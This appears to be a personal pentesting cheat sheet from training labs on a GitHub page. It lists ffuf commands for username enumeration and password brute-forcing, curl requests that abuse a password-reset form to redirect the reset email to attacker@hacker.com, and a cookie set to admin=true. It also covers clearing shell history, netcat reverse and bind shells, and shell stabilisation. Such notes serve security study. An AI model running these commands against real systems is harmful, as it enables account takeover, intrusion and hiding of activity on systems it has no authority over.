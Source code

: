 # Upgrades

    sudo apt update -y && sudo apt upgrade -y


# Enumeration (subdomains)(username)(atthentication bypass)
# ffuf

    ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/signup -mr "username already exists" -fs {size}


-w wordlists path

-u url ex https://google.com

-H host/header

-fs switch, which tells ffuf to ignore any results that are of the specified size.

-d argument specifies the data that we are going to send

-mr argument is the text on the page we are looking for to validate we've found a valid username.

-X method of request {POST,GET ,DELETE}

-fc argument to check for an HTTP status code other than 200.

= FUZZ //worldlists content

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/login -fc 200

# Curl
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
    
# Nmap
    nmap -sV -sC -A http//ip/ -oN output.txt
    
    
# SSH
    ssh username@ip
# SU
    switch user: su - username 
    sudo su username
    
 ****SU**** **superuser**
# history
  
    history -d <line number>
    history -c
    
**-c** is for clearing all
**-d** line by line

# ftp(file transfer protocol)
    ftp ip
    get filename
    
# netcat

reverse shell ports(443,53,80)

the first syntax is for reverse shell

the seceond one is for bind shell

    nc -lvnp <port-number>
    nc <target-ip> <chosen-port>
    
-l is used to tell netcat that this will be a listener

-v is used to request a verbose output

-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.

-p indicates that the port specification will follow.

   **(---**making the shell stable**---)**
   
  **Technique 1: Python**

    python -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    stty raw -echo; fg
   
 fg is use to rerive that termial that we push in the background
 
 and Ctrl + Z push them in the background

![nc](https://user-images.githubusercontent.com/98187755/212935020-c11aea4e-611a-47df-9673-1fe87c8b4fe8.png)

**Technique 2: rlwrap**

to be continue...

